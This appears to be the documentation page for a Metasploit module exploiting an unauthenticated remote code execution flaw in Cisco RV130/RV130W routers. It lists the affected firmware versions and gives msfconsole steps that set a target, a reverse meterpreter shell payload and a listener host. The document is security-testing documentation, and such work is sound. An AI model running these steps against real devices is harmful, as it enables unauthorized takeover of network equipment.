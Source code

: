 # Cisco RV130W Routers Management Interface Remote Command Execution

A vulnerability in the web-based management interface of the Cisco RV130W Wireless-N Multifunction VPN Router could allow an unauthenticated, remote attacker to execute arbitrary code on an affected device.

The vulnerability is due to improper validation of user-supplied data in the web-based management interface. An attacker could exploit this vulnerability by sending malicious HTTP requests to a targeted device.

A successful exploit could allow the attacker to execute arbitrary code on the underlying operating
system of the affected device as a high-privilege user.

## Vulnerable Device

* RV130 Multifunction VPN Router versions prior to 1.0.3.45 are affected.
* RV130W Wireless-N Multifunction VPN Router versions prior to 1.0.3.45 are affected.

This exploit was specifically written against version 1.0.3.28. To test, you can find the
firmware here: https://software.cisco.com/download/home/285026141/type/282465789/release/1.0.3.28

## Verification Steps

1. Start msfconsole
2. ```use exploit/linux/http/cisco_rv130_rmi_rce```
3. ```set rhost [IP]```
4. ```set payload linux/armle/meterpreter_reverse_tcp```
5. ```set lhost [IP]```
6. ```exploit```
7. You should get a session

